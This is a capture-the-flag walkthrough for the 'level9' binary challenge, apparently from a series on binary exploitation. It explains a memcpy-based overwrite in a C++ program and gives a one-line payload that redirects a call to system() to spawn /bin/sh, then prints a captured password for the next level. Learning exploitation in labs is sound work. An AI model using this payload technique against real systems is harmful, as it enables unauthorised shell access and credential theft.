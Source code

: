 # Level9

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level9
  $> ./level9 "teststring"
```

> Nothing is prompted to us in a normal usage.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). This time we're facing a C++ program with some class method using `memcpy()` which is known to be exploitable since no overlaping checks are made.

After a closer look, we can see that this program calls a loaded address in memory **after** the class method call. Using `memcpy` we could overwrite this address to get the program to call `system()` to spawn a shell.

For this exploit, we need:

- Address of the `system()` function (`0xb7d86060`)
- Offset of the `memcpy()` function (**108** bytes)
- Address of `eax` register on method return (`0x0804a00c`)

The main point of this exploit is to replace the address pointed by `eax` to a `system()` call. For this we need to write `system()` address then put **104** junk bytes to overflow and then put the address of `eax` which is where we want to overwrite. Everything after will be parameter to the `system()` call, so let's add `/bin/sh` string to get a shell and the next password!


```shell
  $> ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')

  $ cat /home/user/bonus0/.pass
  f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

So next user credentials pair is `bonus0:f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`.

Check [here](./source.c) for reproduction source-code of this binary.
